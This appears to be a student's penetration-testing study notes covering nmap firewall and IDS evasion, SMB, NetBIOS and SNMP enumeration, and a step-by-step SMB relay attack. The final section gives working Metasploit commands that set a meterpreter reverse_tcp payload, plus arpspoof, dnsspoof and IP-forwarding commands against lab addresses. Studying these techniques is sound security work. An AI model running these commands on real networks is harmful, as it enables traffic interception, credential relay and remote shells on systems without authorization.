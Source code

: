# Host & Network Pentesting: Network-Based Attacks

## Networking Fundamentals

- Every packet has Header and Payload: Header is where it contain where is it from and where it is to, what protocol is it (tell the computer how to process it), payload is the stuff inside including higher OSI layers Header

## Firewall Detection & IDS Evasion

### how to use Nmap to bypass Firewall and IDS

- First, how to detect if there is a firewall (Open nmap -h manual and look at Firewall/IDS Evasion and spoofing session): Use sA scan, ACK scan will send an ACK packet, and it will tell us if it is open/unfiltered or filtered, if it is filtered, it is most likely there is a stateful firewall.

Fragmentation
- To Evade IDS and Firewall, a good skill is to fragment the packet
- `-f` flag to change the MTU, `--mtu` (Maximum traffic unit) to specific the mtu size, `nmap -Pn -sS -sV -F -f <IP>` vs `nmap -Pn -sS -sV -F <IP>` vs `nmap -Pn -sS -sV -F -f --mtu 8 <IP>`

Spoofing & Decoy (what hackersploit usually do)
- `-ttl and --data-lenth and -D (decoy ID)` is very useful to add variety
- `nmap -Pn -sS -sV -p445,3389 -f --data-length 200 -D <Decoy IP, usually we warm to set it from the gateway and broadcast since thats the least sus>`
- can change source port using the `-g` options like `-g 53`

Why disable DNS resolution using the `-n` option

1. ⚡ Speed:DNS lookups can significantly slow down scans — especially when scanning large IP ranges. Each IP might require a reverse DNS lookup, which introduces latency if DNS servers are slow or unresponsive.
2. 📉 Avoiding Noise & Detection: DNS queries can trigger security alerts or get logged, which might alert admins to your presence. Disabling resolution makes the scan more stealthy.
3. 📵 Unavailable DNS: On internal networks or CTFs, reverse DNS might not even be configured. Waiting for responses that never come wastes time.
4. 🎯 Accuracy & Clarity: Disabling DNS ensures Nmap just shows raw IP addresses instead of potentially misleading or incorrect hostnames.

## Network Enumeration

- Goal: service enumeration to gather additional, more specific/detailed info about hosts on a network and services running
- This phrase is to interact with the different protocols and ports open on the hosts, with the intent of eventually exploiting them

### SMB & NetBios Enum (Need further studies)
- They are 2 different technologies, but they're related in the context of networking and file sharing on windows networks.
- NetBios is an API and a set of network protocols for providing communication services over a local network, primarily to allow app on different computers to find and interact with each other on a network.
- 3 Primary Services of NetBIOS: 1) Name Service: Allow computers to register, unregister and resolve names in the network 2) Datagram Service: Supports connectionless communication and broadcasting 3) Session Service: Supports connection-oriented communication for more reliable data transfers.
- NetBIOS typically uses ports 137(Name), 138(Datagram), 139(Session) over UDP and TCP
- SMBv1 might also be vulnerable to null session (anonymous login)

Tools to use for netbios: nbtscan, nmblookup, nmap script=nbstat

Tools to use for smb: nmap script=smb-protocols, script=smb-security-mode, smb-enum-users

- After enumerating the user, we can use hydra to bf the smb login
- Then we can use psexec.py to login


### SNMP

- Used to monitor and manage networked devices such as routers, switches, printers, servers etc
- Allow network admin to query devices for status info, configure certain settings
- SNMP uses UDP, is an application layer protocol and involves 3 primary components:
  1) SNMP Manager: Responsible for querying and interacting with SNMP agents on networked devices
  2) SNMP Agent: Software running on the devices that responds to queries and sends traps
  3) Management Info Base(MIB): A gierarchical database that defines the structure fo data available through SNMP. Each piece of data has a unique Object Identifier(OID)
- Versions of SNMP:
  1) SNMPv1: Using community strings (essentially passwords) for authentication
  2) SNMPv2c: An improved version with support for bulk transfers but still relying on community strings for authentication
  3) SNMPv3: Introduced security features, including encryption, message integrity, and user-based authentication.
- Port used 161 (SNMP queries), 162 (SNMP traps-notifications)
- Enumerating SNMP is to querying the SNMP enableed devices, including misconfig, and potential vuln

Steps for SNMP Enum
1. Identify SNMP Enabled Devices: determine if the device got SNMP, whether they are vuln to info leakage or attacks
2. Extract System Information: Collect sys-related data such as device names, OS, software versions, network interfaces etc
3. Identify Community Strings: To gain legitamate accesss
4. 

### SMB Relay Attack

Theory: This attack involves three machines:
- a client machine (wishing to connect and authenticate with target machine using smb)
- attacker machine aka us
- the target machine (server with smb service)

**how it works**
1. Set up a rogued smb server with metasploit exploit/windows/smb/smb_relay module
   
```bash
  msfconsole
  use exploit/windows/smb/smb_relay
  set SRVHOST 172.16.5.101  //SRVHOST is the IP address of the attacker's fake SMB server
  set PAYLOAD windows/meterpreter/reverse_tcp //Payload to deliver upon successful relay
  set LHOST 172.16.5.101
  set SMBHOST 172.16.5.10 //The real SMB server (target machine)
  run
```

2. Set up ARP spoofing to redirect DNS traffic to us (for dns poisoning to work, it base on MAC address in the network. ARP spoofing poisons the ARP tables of both the client and the real DNS server so that they believe the attacker is the other party. This works because ARP is trust-based — machines update their ARP cache from unsolicited replies.)

```bash
  On separate terminal, run the following commands:
  arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
  arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```

3. Set up fake DNS resolve file

  `echo "172.16.5.101 *.sportsfoo.com" > dns`
  
5. Set up eth1 (same one as the one in arpspoof) as fake dns server's interface

  `dnsspoof -i eth1 -f dns`
  
6. Allow attacker machine to receive and forward network traffic instead of just receiving, by toggling the ip_forward file

  `echo 1 > /proc/sys/net/ipv4/ip_forward`











